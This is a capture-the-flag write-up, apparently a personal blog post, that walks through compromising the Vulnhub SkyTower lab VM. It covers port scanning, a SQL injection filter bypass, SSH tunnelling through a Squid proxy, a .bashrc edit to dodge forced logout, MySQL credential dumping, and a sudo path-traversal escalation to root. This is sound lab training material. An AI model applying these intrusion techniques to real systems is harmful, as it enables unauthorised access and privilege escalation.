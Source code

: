 ```yaml
---
title: "Vulnhub - SkyTower Writeup"
date: 2019-06-05T19:24:33+08:00
description: ""
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Download here

Target VM: https://download.vulnhub.com/skytower/SkyTower.zip

Difficulty: Intermediate to Advanced

Welcome to SkyTower!

This CTF was designed by Telspace Systems for the CTF at the ITWeb Security Summit and BSidesCPT (Cape Town).

You will require skills across different facets of system and application vulnerabilities, as well as an understanding of various services and how to attack them. 

You will most likely find that automated tools will not assist you.

# Before Start

After you download it, just import to your VMWare workstation and change the network interface type as you pleased. Network is configured via DHCP.

Prepare your Kali and ensure they are in the same subnet.

Open VMware workstation - Edit - Virtual network editor to get the ip range.

## Check VM IP

`nmap -sn -n 172.16.51.0/24`, found: 172.16.51.133

# GOGOGO

## Before Attack

`nmap -A -Pn -p1-65535 -O -oN skytower-nmap 172.16.51.133` Found 80,3128.

Port 22 for SSH is filtered But you got Port 3128 with Squid, so you may need to use the proxy to connect to 22.

`nikto -output $(pwd)/skytower.nikto.txt -host 172.16.51.133 port 80` Found `login.php` So, this is the only result we found.

## Start Attack

Walk through http://172.16.51.133, A login form without any hint.

### SQL Injection

So let's try SQL injection here, Let's review some background:

- SQL sequences allowed you do logical operation
- SQL comment delimiter is: `--` or `#` (MySQL) or `/* */` (Multi-line)

So, firstly, try `' or 1=1 --`, you got the SQL Exception and got `11`, it tells me some keywords **MUST** be blocked and the user input is escaped in some way. 

Common ways to bypass those limitations are encoded with Unicode or URL, however, encoding in this way will produce `#` or `;`, This is not working here.

Let's try to replace some chars, just replace `or` with `||` and `--` with `#`.

Duang! It works.

### After SQL Injection

You found a login page, it told you to login via SSH with credentials.

Credentials on the webpage: `john:hereisjohn`

Login should work with proxy port 3128.

In order to connect to SSH via HTTP proxy, you need a software called `proxytunnel`, `sudo proxytunnel -p 172.16.51.133:3128 -d 127.0.0.1:22 -a 13322 -v`, then `ssh john@127.0.0.1 -p13322 -v`.

### Modify bashrc

After login with correct credentials, you immediately get logged out. This usually caused by incorrect default login shell or incorrect shell config. So just pass a param to bypass it, `ssh -p13322 john@127.0.0.1 /bin/bash`.

You will get an empty shell here: `cat ~/.bashrc`, you will found the last line is a fucking `exit`. Run `sed -i '$ d' ~/.bashrc` to remove last line in `~/.bashrc`. Now, just Ctrl-C to interrupt and reconnect. You will get a full-featured shell.

## Privilege Escalation

Run LinEnum.sh to check it rapidly. After LinEnum.sh, you found that `Linux version 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2` AND ALSO `[+] We can connect to the local MYSQL service with default root/root credentials!`

So SQL Enumerate Users:

```MySQL
show databases;
use SkyTech;
show tables;
select * from login;
```

try to login with each user listed and use `sudo -l` to check if you can get root.

Well, the only user you are able to login here, except john, is: `sara:ihatethisjob`.

However, same trick on bashrc applied here. Repeat the step above.

BUT with `sudo -l`, you'll be disappointed:

```
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```

So, you may use `../` to escalate it.

```bash
sara@SkyTower:~$ sudo bash
[sudo] password for sara: 
Sorry, user sara is not allowed to execute '/bin/bash' as root on SkyTower.local.
sara@SkyTower:~$ sudo ls /accounts/../root/
flag.txt
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$ su root
Password: theskytower
root@SkyTower:/home/sara# cd && ls
flag.txt
```

Congrats! ALL DONE!

(FINISHED)

